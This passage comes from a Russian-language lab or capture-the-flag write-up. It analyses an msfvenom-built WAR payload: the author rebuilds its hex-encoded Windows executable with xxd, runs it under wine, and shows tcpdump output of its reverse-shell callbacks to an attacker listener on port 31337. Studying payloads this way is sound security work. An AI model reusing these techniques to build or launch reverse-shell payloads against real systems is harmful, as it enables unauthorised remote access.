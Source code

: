 В последнем шаге для запуска файла вне зависимости от типа ОС используется [Java-реализация](https://docs.oracle.com/javase/7/docs/api/java/lang/Runtime.html#exec(java.lang.String[]) "Runtime (Java Platform SE 7 )") функции `exec`.

Если сохранить в отдельный файл ту самую гигантскую hex-строку:
```text
root@kali:~/war# wc -c wdwxbdssjol.hex
147604 wdwxbdssjol.hex
```

И собрать ее в бинарник:
```text
root@kali:~/war# cat wdwxbdssjol.hex | xxd -ps -r > wdwxbdssjol.exe
root@kali:~/war# file wdwxbdssjol.exe
wdwxbdssjol.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

То получится красивый исполняемый файл для Windows.

Если запустить его под wine и послушать тот самый 31337-й порт, который мы указывали при сборке в msfvenom, то получится такая картина:
```text
root@kali:~/war# wine wdwxbdssjol.exe

```

```text
root@kali:~# tcpdump -n -i any port 31337
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
23:04:38.451347 IP 10.0.2.15.35876 > 10.10.14.71.31337: Flags [S], seq 3970297783, win 29200, options [mss 1460,sackOK,TS val 3940560271 ecr 0,nop,wscale 7], length 0
23:04:39.473080 IP 10.0.2.15.35876 > 10.10.14.71.31337: Flags [S], seq 3970297783, win 29200, options [mss 1460,sackOK,TS val 3940561293 ecr 0,nop,wscale 7], length 0
23:04:41.488955 IP 10.0.2.15.35876 > 10.10.14.71.31337: Flags [S], seq 3970297783, win 29200, options [mss 1460,sackOK,TS val 3940563308 ecr 0,nop,wscale 7], length 0
23:04:45.521049 IP 10.0.2.15.35876 > 10.10.14.71.31337: Flags [S], seq 3970297783, win 29200, options [mss 1460,sackOK,TS val 3940567341 ecr 0,nop,wscale 7], length 0
23:04:53.717862 IP 10.0.2.15.35876 > 10.10.14.71.31337: Flags [S], seq 3970297783, win 29200, options [mss 1460,sackOK,TS val 3940575537 ecr 0,nop,wscale 7], length 0
23:05:10.319982 IP 10.0.2.15.35876 > 10.10.14.71.31337: Flags [S], seq 3970297783, win 29200, options [mss 1460,sackOK,TS val 3940591664 ecr 0,nop,wscale 7], length 0
23:05:44.357615 IP 10.0.2.15.35876 > 10.10.14.71.31337: Flags [S], seq 3970297783, win 29200, options [mss 1460,sackOK,TS val 3940625206 ecr 0,nop,wscale 7], length 0
23:06:50.874275 IP 10.0.2.15.35878 > 10.10.14.71.31337: Flags [S], seq 3970297786, win 29200, options [mss 1460,sackOK,TS val 3940690733 ecr 0,nop,wscale 7], length 0
23:06:51.898469 IP 10.0.2.15.35878 > 10.10.14.71.31337: Flags [S], seq 3970297786, win 29200, options [mss 1460,sackOK,TS val 3940691757 ecr 0,nop,wscale 7], length 0
23:06:53.915157 IP 10.0.2.15.35878 > 10.10.14.71.31337: Flags [S], seq 3970297786, win 29200, options [mss 1460,sackOK,TS val 3940693774 ecr 0,nop,wscale 7], length 0
23:06:58.046895 IP 10.0.2.15.35878 > 10.10.14.71.31337: Flags [S], seq 3970297786, win 29200, options [mss 1460,sackOK,TS val 3940697905 ecr 0,nop,wscale 7], length 0
23:07:06.233862 IP 10.0.2.15.35878 > 10.10.14.71.31337: Flags [S], seq 3970297786, win 29200, options [mss 1460,sackOK,TS val 3940706092 ecr 0,nop,wscale 7], length 0
23:07:22.856792 IP 10.0.2.15.35878 > 10.10.14.71.31337: Flags [S], seq 3970297786, win 29200, options [mss 1460,sackOK,TS val 3940722223 ecr 0,nop,wscale 7], length 0
23:07:57.400803 IP 10.0.2.15.35878 > 10.10.14.71.31337: Flags [S], seq 3970297786, win 29200, options [mss 1460,sackOK,TS val 3940756272 ecr 0,nop,wscale 7], length 0
23:09:03.922270 IP 10.0.2.15.35880 > 10.10.14.71.31337: Flags [S], seq 3970297789, win 29200, options [mss 1460,sackOK,TS val 3940821806 ecr 0,nop,wscale 7], length 0
23:09:04.947394 IP 10.0.2.15.35880 > 10.10.14.71.31337: Flags [S], seq 3970297789, win 29200, options [mss 1460,sackOK,TS val 3940822832 ecr 0,nop,wscale 7], length 0
23:09:06.982452 IP 10.0.2.15.35880 > 10.10.14.71.31337: Flags [S], seq 3970297789, win 29200, options [mss 1460,sackOK,TS val 3940824867 ecr 0,nop,wscale 7], length 0
23:09:11.096857 IP 10.0.2.15.35880 > 10.10.14.71.31337: Flags [S], seq 3970297789, win 29200, options [mss 1460,sackOK,TS val 3940828981 ecr 0,nop,wscale 7], length 0
```